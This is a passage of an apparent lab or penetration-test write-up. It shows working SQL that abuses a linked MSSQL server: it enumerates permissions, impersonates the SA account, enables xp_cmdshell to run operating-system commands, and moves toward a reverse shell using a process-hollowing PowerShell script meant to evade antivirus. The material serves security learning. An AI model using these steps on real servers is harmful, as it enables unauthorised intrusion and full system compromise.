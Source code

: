     ```sql
    EXECUTE ('
    SELECT permission_name, state_desc 
    FROM sys.database_permissions 
    WHERE grantee_principal_id = DATABASE_PRINCIPAL_ID(USER);
    ') AT [PRIMARY];
    ```
    ![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*oGDvmuDPl1XYcPAFluUiOg.png)

    The current user has only been granted `CONNECT` permission.

+ Checking Impersonation Rights

    ```sql
    EXECUTE ('
    SELECT ''LOGIN'' as ''execute as'', '''' AS ''database'', 
    pe.permission_name, pe.state_desc, pr.name AS ''grantee'', pr2.name AS ''grantor'' 
    FROM sys.server_permissions pe 
    JOIN sys.server_principals pr ON pe.grantee_principal_id = pr.principal_Id 
    JOIN sys.server_principals pr2 ON pe.grantor_principal_id = pr2.principal_Id 
    WHERE pe.type = ''IM''
    ') AT [PRIMARY];
    ```
    ![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*o2vPL_I2RmBhwO4OmYQuUg.png)

    We find that the current user can impersonate `SA`. The `SA` account belongs to the `sysadmin` fixed server role, which grants full control over the SQL Server instance, including all databases, configurations, and system-level operations. The `SA` account is created during SQL Server installation.

#### SA Impersonation 

**We now impersonate SA and enable the xp_cmdshell extended stored procedure to run commands:**

```sql
EXECUTE (
    'EXECUTE AS LOGIN = ''sa''; 
     EXEC SP_CONFIGURE ''show advanced options'', 1; 
     RECONFIGURE; 
     EXEC SP_CONFIGURE ''xp_cmdshell'', 1; 
     RECONFIGURE; 
     EXEC xp_cmdshell ''whoami'''
) AT [PRIMARY];
```
![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*JCSqxnkP-0R3RDUj90yb5Q.png)

The commands run as the **`NT SERVICE\MSSQLSERVER`** account. Now, we can establishing a reverse shell as this service account.

#### Reverse shell

Using the [DynWin32-ShellcodeProcessHollowing.ps1](https://gist.githubusercontent.com/qtc-de/1ecc57264c8270f869614ddd12f2f276/raw/c5810a377af12b21629f25cd60b2e9c42713b8e8/DynWin32-ShellcodeProcessHollowing.ps1) PowerShell script, which performs shellcode-based process hollowing. This technique uses dynamically looked-up Win32 API calls to evade antivirus detection.
